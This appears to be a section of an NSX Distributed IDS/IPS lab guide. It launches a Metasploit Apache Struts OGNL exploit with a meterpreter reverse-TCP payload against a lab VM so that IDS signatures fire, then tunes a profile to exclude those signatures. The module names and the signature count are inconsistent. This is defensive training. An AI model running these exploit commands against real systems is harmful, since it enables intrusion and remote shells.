

## 8. Advanced Attack and Configuration
**Estimated Time to Complete: 60 minutes**

In this **optional** exercise, we will explore some more advanced options in the NSX Distributed IDS/IPS Configuration
 * Tuning IDS/IPS Profile to turn off irrelevant signatures
 * Attempt to evade IDS/IPS detection by using obfuscations
 * Enable IDS/IPS event logging directly from each host to a syslog collector/SIEM

**Tuning IDS/IPS Profile to turn off irrelevant signatures**

> **Note**: Within an IDS/IPS Profile, you can define exclusions in order to turn off particular signatures within the context of that profile. Reasons to exclude signatures include false positives, noisy or irrelevant signatures being triggered.

1.	From the console session with  **External VM**, type **sudo msfconsole** to launch **Metasploit**. Enter **VMware1!** if prompted for a password. Follow the below steps to initiate the exploit. Hit **enter** between every step. 
    * Type **use exploit/multi/http/struts2_namespace_ognl** to select the drupalgeddon2 exploit module
    * Type **set RHOST 192.168.10.101** to define the IP address of the victim to attack. The IP address should match the IP address of **App1-WEB-TIER VM**
    * Type **exploit** to initiate the exploit.

> **Note**: This exploit will fail as  **App1-WEB-TIER VM** is not running an Apache Struts service vulnerable to this exploit.
    
```console
msf5 >  use exploit/multi/http/struts2_content_type_ognl
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOST 192.168.10.101
RHOST => 192.168.10.101
msf5 exploit(multi/http/struts2_content_type_ognl) > exploit

[*] Started reverse TCP handler on 10.114.209.151:4444
[-] Exploit aborted due to failure: bad-config: Server returned HTTP 404, please double check TARGETURI
[*] Exploit completed, but no session was created.
msf5 exploit(multi/http/struts2_content_type_ognl) >
```
2. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
3. Confirm 4 signatures have fired:
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638)
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M2
    * ET WEB_SPECIFIC_APPS Possible Apache Struts OGNL Expression Injection (CVE-2017-5638) M3
    
4. Note that the **affected product** for all these events is **Apache_Struts2** and the severity for all events is **high**.
5. Now we will turn off these signatures for the **Production** profiles as we are not running **Apache_Struts2** in our production environment.
6. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Profiles
7.	Click the **3 dots** next to the **Production** profile and click **Edit** to edit the profile.
8. Click **Select** next to **High Severity Signatures**
9. In the **Filter** field, type **Apache_Struts2** to find all signatures related to Struts2. Tick the **Checkbox** on top of the exclusion screen to select all filtered signatures.

10. Click **Add** to add the selected signatures to th exclusion list for the **Production** profile.
11. Click **Save** to save the **Production** profile.

Now that we have tuned our Profile, we will try the failed exploit attempt again, and confirm this time the signatures don't fire.

12.	From the already open console session with  **External VM**, use the already configured **struts2_namespace_ognl** Metastploit module to launch the exploit attempt again. 
    * Type **exploit** to initiate the exploit. If you had previously closed Metsploit, then repeat step #1 of this exercise instead to launch the exploit attempt
13. In NSX Manager, navigate to Security --> East West Security --> Distributed IDS --> Events
14. Confirm the total number of events or the number of times each **Apache_Struts2** signature fired has not increased.

15. You have now completed this exercise.

---

[***Next Step: 9. Segmentation***](/docs/9-Segmentation.md)
